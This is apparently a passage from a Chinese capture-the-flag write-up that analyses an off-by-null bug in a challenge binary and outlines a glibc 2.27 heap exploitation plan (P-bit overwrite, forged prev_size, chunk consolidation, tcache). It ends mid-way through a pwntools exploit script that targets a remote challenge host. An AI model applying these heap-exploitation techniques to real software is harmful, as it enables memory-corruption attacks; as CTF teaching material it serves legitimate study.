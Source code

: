 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011e751a099178c46a.png)

发现是个重复字符串相关的

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E"></a>漏洞
<li>最后 input[i] = ‘\0’;时有一个offset by null
<ul>
- 循环结束时, i=end+1
- end=k-1, 因此max(end) = max(k)-1
<li>k最大 = len<br>
综上, i最大为len, 溢出</li>
接下来就是漫漫构造路, 因为算法直接逆不出来, 就只能凭感觉去fuzz, 最终测试出来发现回文串时, 可以让k=len

[![](https://p2.ssl.qhimg.com/t0157e037ace62cd580.png)](https://p2.ssl.qhimg.com/t0157e037ace62cd580.png)

### <a class="reference-link" name="%E6%80%9D%E8%B7%AF"></a>思路

所以此时题目就和Play无关了, Play只是提供了一个offset by null而已

题目就变成了2.27下的offset by null

常规手法: 踩掉P标志, 构造隔块合并, 然后接触Tcache

Play去踩P标志时没法伪造size, 解决方法:
- 踩完之后free掉, 再通过Add申请写入数据, 就可以在保留P=0的前提下, 伪造prev_size了
### <a class="reference-link" name="EXP"></a>EXP

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')


def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('114.215.144.240', 41699)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('&gt;&gt;&gt; ')
    Num(n)

def Add(size, cont):
    Cmd(1)
    sh.recvuntil('Input len:\n')
    Num(size)
```
